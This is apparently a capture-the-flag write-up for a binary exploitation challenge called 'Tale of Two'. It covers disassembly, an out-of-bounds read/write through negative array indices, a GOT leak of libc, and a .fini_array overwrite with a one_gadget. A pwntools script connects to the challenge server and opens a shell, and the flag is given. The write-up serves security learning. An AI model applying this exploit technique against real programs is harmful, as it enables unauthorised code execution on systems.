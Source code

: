 # Tale of Two

Category: Binary Exploitation, ROP, fini_array
Created: Nov 8, 2020 3:59 PM
Points: 500
Solved: Yes
Subjective Difficulty: 🔥🔥🔥🔥

# WriteUp:

## 🔎 Research:

We are given a program that asks us where we want to read and gives us the value of this address in memory. Next, it asks where we want to write and what we want to write. Then, our 8bytes value are written to the specified address.

Lets reverse engineer the main function and see what it does:

```python
		[...]
		[...]
		1194:	e8 b7 fe ff ff       	call   1050 <__isoc99_scanf@plt>  
    1199:	48 8b 45 f0          	mov    rax,QWORD PTR [rbp-0x10]  # rax = input_decimal
    119d:	48 8d 14 c5 00 00 00 	lea    rdx,[rax*8+0x0]           # rdx = rax*8
    11a4:	00 
    11a5:	48 8d 05 2c 22 00 00 	lea    rax,[rip+0x222c]          # rax = (address) <var_buf_struct>
    11ac:	48 8b 04 02          	mov    rax,QWORD PTR [rdx+rax*1] # rax = input_decimal-te byte from <var_buf_struct>
    11b0:	48 89 c6             	mov    rsi,rax                   # rsi = rax
    11b3:	48 8d 3d 6a 0e 00 00 	lea    rdi,[rip+0xe6a]        # 2024 <_IO_stdin_used+0x24>
    11ba:	b8 00 00 00 00       	mov    eax,0x0
    11bf:	e8 7c fe ff ff       	call   1040 <printf@plt>         # printf(input_decimalte-te byte from <var_buf_dtruct>)
    11c4:	48 8d 3d 5e 0e 00 00 	lea    rdi,[rip+0xe5e]        # 2029 <_IO_stdin_used+0x29>
    11cb:	b8 00 00 00 00       	mov    eax,0x0                #
    11d0:	e8 6b fe ff ff       	call   1040 <printf@plt>      # where want to write
    11d5:	48 8d 45 f0          	lea    rax,[rbp-0x10]         #
    11d9:	48 89 c6             	mov    rsi,rax                # rsi = (addr)<input_var>
    11dc:	48 8d 3d 3d 0e 00 00 	lea    rdi,[rip+0xe3d]        # 2020 <_IO_stdin_used+0x20>
    11e3:	b8 00 00 00 00       	mov    eax,0x0
    11e8:	e8 63 fe ff ff       	call   1050 <__isoc99_scanf@plt>
    11ed:	48 8d 3d 52 0e 00 00 	lea    rdi,[rip+0xe52]        # 2046 <_IO_stdin_used+0x46>
    11f4:	b8 00 00 00 00       	mov    eax,0x0
    11f9:	e8 42 fe ff ff       	call   1040 <printf@plt>      # what want to write
    11fe:	48 8b 45 f0          	mov    rax,QWORD PTR [rbp-0x10]# rax = input_decimal
    1202:	48 8d 14 c5 00 00 00 	lea    rdx,[rax*8+0x0]         # rdx = rax*8
    1209:	00 
    120a:	48 8d 05 c7 21 00 00 	lea    rax,[rip+0x21c7]        # 33d8 <buf>
    1211:	48 01 d0             	add    rax,rdx                 #
    1214:	48 89 c6             	mov    rsi,rax                 # rsi = <var_buf_struct>+input_decimal-te bytesta 
    1217:	48 8d 3d 44 0e 00 00 	lea    rdi,[rip+0xe44]        # 2062 <_IO_stdin_used+0x62>
    121e:	b8 00 00 00 00       	mov    eax,0x0
    1223:	e8 28 fe ff ff       	call   1050 <__isoc99_scanf@plt> #scanf(?, <var_buf_struct>+input_decimal-te byte )
    1228:	b8 00 00 00 00       	mov    eax,0x0
    122d:	48 8b 4d f8          	mov    rcx,QWORD PTR [rbp-0x8]
    1231:	64 48 2b 0c 25 28 00 	sub    rcx,QWORD PTR fs:0x28
    1238:	00 00 
    123a:	74 05                	je     1241 <main+0xe8>
    123c:	e8 ef fd ff ff       	call   1030 <__stack_chk_fail@plt>
    1241:	c9                   	leave  
    1242:	c3                   	ret
```

So from this we can construct the following C-Code the program will probably look like:

```c

void* buf[n]; // in data segment

int main(){
	long int number;
	printf("Where do you want to read?");
	scanf("%ld", number); //long signed int decimal (4bytes)
	printf("%zx\n", buf[number]); // size_t hexadecimal (8bytes)
	
	printf("Where do you want to write?");
	scanf("%ld", number); // long signed int decimal (4bytes)
	
	printf("What do you want to write?");
	scanf("%zu", buf[number]); // size_t decimal (8bytes)s
}
```

## 📝 Vulnerability Description:

As we can supply a long signed int to where we want to read, we can read in negative direction too. A quick view at where [GOT](https://www.notion.so/GOT-e3101944e4cb498c9dcd337940fcecad) is located shows us, that GOT is almost completely next to buf. So we can read out the printf address from GOT as this is already resolved by first call to printf. So we can leak a libc_address.
Another structure we can reach from buf is the `.fini_array`. This structure contains pointers to functions that will be called when exiting the program and the global dtors are proceeded.
Thus allowing us to overwrite a `.fini_array` entry with a value we can control and ideally leads to a shell.

## 🧠 Exploit Development:

 The distance between buf and printf GOT entry is 40 bytes, so we need to access `-40/8=-5` entry from buf: `buf[-5]`.

With the printf address we can easily calculate libc_base by looking up the printf_offset in [libc_database](https://www.notion.so/Libc-Database-1299ef3982f34cc7afe0c7a03109172a): 

```c
printf_offset = 0x64e80
libc_base = printf_addr - printf_offset
```

Next, we use the tool called [one_gadget](https://www.notion.so/one_gadget-ef7f874242e54bd2af6fef360e2c66ae) to recieve a gadget that spawns a shell simply by calling it. 

![Tale%20of%20Two%204dc3de506bdd4759afe29e6635e3ed77/one_gadget_output.png](Tale%20of%20Two%204dc3de506bdd4759afe29e6635e3ed77/one_gadget_output.png)

We choose the gadget at address `0x4f322` .

Finally, we have to find a overwrite location that value will be called after we overwritten it. The `.fini_array` section contains such pointers to function that will be called at exit of the programm.

The `.fini_array` section is located -600bytes from buf, so the input where we wanna write is `-600/8=-75` . 

## 🔐 Exploit Programm:

```python
from pwn import *
import binascii

printf_offset = 0x64e80
one_gadget_addr = 0x4f322

fini_array_offset = 0x214a

p = remote("challenges.ctfd.io", 30250)

pause()

p.recvline() # Where do you want to read?
p.sendline("-5") # printf_addr
printf_addr = int.from_bytes(binascii.a2b_hex(p.recvline(keepends=False)), "big")
print("printf_addr: {0}".format(hex(printf_addr)))
libc_base = printf_addr - printf_offset
print("libc_base: {0}".format(hex(libc_base)))
one_gadget = libc_base + one_gadget_addr
print("one_gadget: {0}".format(hex(one_gadget)))

p.recvline() # Where do you want to write?
p.sendline("-75") #fini_array_start
p.recvline() # Waht do you want to write?
p.sendline(str(one_gadget))

p.interactive()
```

## 💥 Run Exploit:

![Tale%20of%20Two%204dc3de506bdd4759afe29e6635e3ed77/successfull_exploit.png](Tale%20of%20Two%204dc3de506bdd4759afe29e6635e3ed77/successfull_exploit.png)

**FLAG: nactf{a_l0n3ly_dt0r_4nd_a_sh3ll_tUIlF0jxW5aMXoGo}**

## 🗄️ Summary / Difficulties:

The main difficulty in this challenge is that we dont have any obvious options to overwrite our gadget with so we can call our gadget. There the `.fini_array` section is a good place to place our gadget address. The address of the `.fini_array` start can be found by inspecting with `readelf --sections ...` . 

## 🗃️ Further References:

- [ROP](https://www.notion.so/ROP-1fe7ddaabcfc44d6ae73745377e9007a)
- [.fini_array overwrite](https://www.notion.so/fini_array-overwrite-3c8f088a1ef248fb9c68d383101495e1)

## 🔨 Used Tools:

- [Pwndbg](https://www.notion.so/Pwndbg-2c0c6540dc5444559bb84545f6dbbd48)
- [one_gadget](https://www.notion.so/one_gadget-ef7f874242e54bd2af6fef360e2c66ae)
- [Libc-Database](https://www.notion.so/Libc-Database-1299ef3982f34cc7afe0c7a03109172a)

---

# Notes:

## Ideas

- overwrite got entry with other function
- overwrite __malloc_hook in libc_data_segment with other function
- overwrite __fini_array with our function

## Problems

- how can we get called our overwrite function if function that overwrites it is last call?

    → overwrite .fini_array (gets called at exit)

## Remember

.fini_array section start can be found at readelf section output.
.fini_array (or .dtos) entry in pwngdb called *__do_global_dtors_aux_fini_array_entry*
